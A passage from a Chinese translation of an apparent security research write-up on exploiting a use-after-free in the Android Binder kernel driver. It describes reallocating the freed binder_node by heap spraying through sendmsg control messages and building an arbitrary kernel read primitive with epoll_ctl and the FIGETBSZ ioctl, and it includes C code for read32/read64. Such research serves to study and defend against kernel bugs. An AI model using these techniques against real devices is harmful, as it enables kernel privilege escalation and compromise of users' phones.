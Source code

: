 如果请求的控制消息长度大于本地ctl缓冲区，则在[1]处将在内核堆上分配一个缓冲区。在[2]处，从用户区域复制控制消息。最后，在处理消息之后，在[3]位置释放分配的缓冲区。<br>
一旦目标套接字缓冲区已满，我们就使用阻塞调用来导致系统调用阻塞，因此就会在[2]和[3]之间的线程之后发生阻塞。这样一来，我们就可以控制替换对象的生存周期。<br>
我们还可以利用Jann Horn在发现PROCA漏洞中所使用的方法：完成sendmsg调用，然后立即使用例如signalfd文件描述符来重新分配对象。其优点在于，这样就不再需要为每个分配使用单独的线程，但是结果会非常相似。<br>
在任何情况下，使用这种类型的喷射，我们都可以按照几乎完全控制的方式重新分配释放的binder_node，以便触发前面所述的写入原语。<br>
但需要注意的一件事是，如果我们喷射失败，由于释放的内存中需要执行的操作和检查量非常大，因此最终会导致内核崩溃。但是，由于这种释放后使用的特性非常好，只要我们不触发写入原语，我们就可以简单地关闭Binder文件描述符，并且内核不会注意到任何影响。<br>
因此，在尝试触发写入原语之前，我们使用泄露原语来验证是否已经成功重新分配节点。为此，我们只需要拥有大量待处理的事务，并在每次需要从释放后对象中泄露一些数据时读取其中的一个事务。如果数据不是我们所期望的，只需要关闭Binder文件描述符，然后重试一次即可。<br>
即使存在相对不可靠的重新分配，上述的这一属性也使得漏洞利用非常可靠。



## 获取任意读取原语

在这里，我们使用与OffensiveCon 2020演讲中相同的任意读取技术。也就是说，我们损坏file-&gt;f_inode，并执行下面的代码进行读取：

```
int do_vfs_ioctl(struct file *filp, unsigned int fd, unsigned int cmd,
         unsigned long arg)
{
    int error = 0;
    int __user *argp = (int __user *)arg;
    struct inode *inode = file_inode(filp);

    switch (cmd) {

...

    case FIGETBSZ:
        return put_user(inode-&gt;i_sb-&gt;s_blocksize, argp);

...
```

如果大家阅读我们的幻灯片，早在2018年末，我们就使用了Binder映射喷射的方式来绕过PAN，并在受控制的位置获得了受控数据。但是，在摆脱长期内核端Binder映射的同时，还引入了我们在这里利用的漏洞。这意味着，我们不能再使用Binder映射喷射，而必须再找到另一种解决方案。<br>
我们想到的解决方案是，将f_inode字段指向一个上层结构。该结构包含一个完全可控制的64位字段。我们可以使用ep_ctl(efd, EPOLL_CTL_MOD, fd, &amp;event)来修改这个字段。因此，如果我们将数据字段与inode-&gt;i_sb字段对齐，就可以获得任意读取。<br>
下面以图形化的方式展现了这一过程：

[![](./img/202810/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0164b4ab4654dc4baf.png)

请关注我们在这里还损坏了epitem的fllink.next字段，由于我们的写入原语，该字段现在指向file-&gt;f_inode字段。如果曾经使用过这个字段，那么可能会出现问题，但是由于我们目前是这些结构文件和epitem实例的唯一用户，因此我们只需要避免调用任何使用它们的API就可以。<br>
基于上述设置，我们现在就可以构建一个任意读取原语，如下所示：

```
uint64_t read32(uint64_t addr) {
   struct epoll_event evt;
   evt.events = 0;
   evt.data.u64 = addr - 24;
   int err = epoll_ctl(file-&gt;ep_fd, EPOLL_CTL_MOD, pipes[0], &amp;evt);
   uint32_t test = 0xdeadbeef;
   ioctl(pipes[0], FIGETBSZ, &amp;test);
   return test;
}

uint64_t read64(uint64_t addr) {
   uint32_t lo = read32(addr);
   uint32_t hi = read32(addr+4);

   return (((uint64_t)hi) &lt;&lt; 32) | lo;
}
```
